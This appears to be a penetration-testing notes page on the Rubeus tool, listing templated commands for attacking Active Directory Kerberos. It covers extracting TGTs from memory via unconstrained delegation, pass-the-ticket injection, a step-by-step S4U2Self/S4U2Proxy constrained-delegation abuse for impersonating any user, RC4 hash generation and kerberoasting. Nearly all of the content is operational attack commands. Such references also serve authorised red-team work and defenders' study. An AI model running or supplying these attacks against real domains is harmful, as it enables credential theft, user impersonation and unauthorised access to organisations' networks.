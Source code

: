 # [Rubeus](https://github.com/GhostPack/Rubeus)

---

## [Usage & Flags for Each of Rubeus's Commands](https://github.com/GhostPack/Rubeus)

---

## Listen for and Extract TGTs from Memory at a Particular Interval (Exploiting [[unconstrained-delegation|Unconstrained Delegation]])

Must be executed in the context of `NT AUTHORITY/SYSTEM`.

```powershell
Rubeus.exe monitor /monitorinterval:"$INTERVAL_IN_SECONDS" [/runfor:"$NUMBER_OF_SECONDS_TO_RUN_FOR"]
```

---

## Inject a Kerberos ticket into the Current Context to Execute a [[pass-the-ticket|Pass the Ticket]] Attack

```powershell
Rubeus.exe ptt /ticket:$TICKET
```

- `$TICKET` can either be a base64-encoded TGT or service ticket string or a path to a file containing the TGT or service ticket

---

## Abuse a [[constrained-delegation|Constrained Delegation]] Privilege to Generate a Service Ticket for Any User to a Host for which a SPN is Configured

### 1. Retrieve a TGT for the principal configured with constrained delegation

```powershell
Rubeus.exe [/domain:"$DOMAIN"] /user:"$USERNAME" [/rc4:"$RC4"] [/aes128:"$AES128"] [/aes256:"$AES256"] [/des:"$DES"] [/password:"$PASSWORD"] [/dc:$DOMAIN_CONTROLLER_FQDN_OR_IP] 
```

- `$DOMAIN/$USER` is the domain and username of the principal who has the constrained delegation privilege on `$SPN`
- `$RC4`, `$AES128`, `$AES256`, `$DES`, or `$PASSWORD` is the credential of the principal who has the constrained delegation privilege on `$SPN`

### 2. Retrieve a service ticket for the user to impersonate to the principal configured with constrained delegation (S4U2Self)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /impersonateuser:"$USER_TO_IMPERSONATE"
```

- `$TGT` was generated in step \#1
	- Either the base64-encoded string or a path to a file containing the ticket

### 3. Retrieve a service ticket for the user to impersonate to one of the SPNs available to the principal configured with constrained delegation (S4U2Proxy)

```powershell
Rubeus.exe s4u [/ticket:"$TGT"] /msdsspn:"$SPN" /tgs:"$SERVICE_TICKET" [/altservice:"$ALTERNATIVE_SERVICE"] [/ptt]
```

- `$SPN`: [[service-principal-name|SPN]] to retrieve the new service ticket for
- `$SERVICE_TICKET` from step \#2
	- Either the base64-encoded string or a path to a file containing the ticket
- `$ALTERNATIVE_SERVICE`: an alternative service to create the new service ticket for, instead of the service from the `$SPN` (i.e., `cifs`, `ldap`, etc.)
- `/ptt` will inject the ticket into the current context. Otherwise, print it to `stdout`


### 4. [[windows/active-directory/tools/rubeus#Inject a Kerberos ticket into the Current Context to Execute a pass-the-ticket Pass the Ticket Attack|Inject the ticket into the current context to execute a pass the ticket attack]]

---

## Generate the RC4 HMAC of a Domain Account's Password

```powershell
Rubeus.exe hash /password:$PASSWORD /user:$USERNAME /domain:$DOMAIN
```

---

## Kerberoast all Kerberoastable Users

```powershell
Rubeus.exe kerberoast
```
